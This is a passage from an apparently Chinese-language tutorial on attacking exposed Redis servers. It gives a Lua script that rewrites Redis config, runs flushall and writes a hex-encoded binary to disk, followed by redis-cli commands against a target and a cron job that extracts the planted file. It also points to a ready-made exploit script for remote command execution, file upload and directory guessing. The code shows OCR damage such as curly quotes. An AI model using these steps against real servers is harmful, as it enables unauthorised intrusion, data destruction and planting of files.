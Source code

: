 ```

local dbfilename = redis.call(‘config’,‘get’,‘dbfilename’)

redis.call(‘config’,‘set’,‘dbfilename’,‘t’)

local rdbcompress = redis.call(‘config’,‘get’,‘rdbcompression’)

redis.call(‘config’,‘set’,‘rdbcompression’,‘no’)

redis.call(‘flushall’) `local data = ‘1a2b3c4d5e6f1223344556677890aa’

redis.call(‘set’,‘data’,hex2bin(‘0a7c7c7c’…data…‘7c7c7c0a’))

local rst = {}

rst[1] = ‘server default config’

rst[2] = ‘dir:’…dir[2]

rst[3] = ‘dbfilename:’…dbfilename[2]

rst[4] = ‘rdbcompression:’…rdbcompress[2]

return rst

保存以上代码为a.lua，变量data保存的是程序的16进制编码，执行` 
```

```
redis-cli --eval a.lua -h *.*.*.*
```

由于redis不支持在lua中调用save因此需要手动执行save操作,并且删除key data，恢复dir等。

```
redis-cli save -h *.*.*.*
redis-cli config set dir *** -h *.*.*.*
redis-cli config set dbfilename *** -h *.*.*.*
redis-cli config set rdbcompression * -h *.*.*.* 
```

目前写入的文件前后是存在垃圾数据的，下一步通过写计划任务调用python或者系统命令提取出二进制文件（写文件之在数据前后加入了 |||作为提取最终文件的标识）。

```
*/1 * * * * python -c 'open("/tmp/rst","a+").write(open("/tmp/t").read().split("|||")[1])'

```

/tmp/rst为最终上传的文件。

##### (5).傻瓜式python脚本

From:https://raw.githubusercontent.com/00theway/redis_exp/master/redis_exp.py

```
执行命令
需要root权限，每次添加计划任务前先获取服务器时间，然后根据获取的时间设置执行计划任务的时间，确保命令被执行一次，避免多次执行引发服务器异常。
    python redis_exp.py --host *.*.*.* -c 'id'

上传文件

上传携带脏数据的文件不需要root权限，上传二进制文件需要root权限，先上传带有脏数据的文件，在文件前后插入特征字符串，然后添加计划任务截取数据

python redis_exp.py --host *.*.*.* -l /data/payload.py -r /tmp/p.py

暴力猜解目录

不需要root权限，利用 config set dir ‘xx’ 报错进行目录猜解
```